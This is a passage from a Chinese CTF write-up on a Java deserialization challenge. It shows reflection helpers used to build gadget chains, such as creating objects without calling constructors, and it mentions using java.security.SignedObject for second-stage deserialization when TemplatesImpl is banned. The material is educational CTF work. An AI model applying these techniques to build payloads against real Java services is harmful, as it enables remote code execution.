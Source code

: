 ```java
    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs ) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }
    public static Object createWithoutConstructor(String classname) throws ClassNotFoundException, InvocationTargetException, NoSuchMethodException, InstantiationException, IllegalAccessException {
        return createWithoutConstructor(Class.forName(classname));
    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }
}
```
![](https://img-blog.csdnimg.cn/c23d57edb1474496865ebd53bee571a3.png)

当然这题ban掉了TemplatesImpl，最后就是 java.security.SignedObject 触发二次反序列化即可

参考：
[NeepuCTF2023 公开赛 Writeup](https://boogipop.com/2023/05/21/NeepuCTF2023%20%E5%85%AC%E5%BC%80%E8%B5%9B%20Writeup/)
[https://github.com/R1ckyZ/My-CTF-Challenges/tree/main/NEEPUCTF%202023/No%20Map/solve](https://github.com/R1ckyZ/My-CTF-Challenges/tree/main/NEEPUCTF%202023/No%20Map/solve)
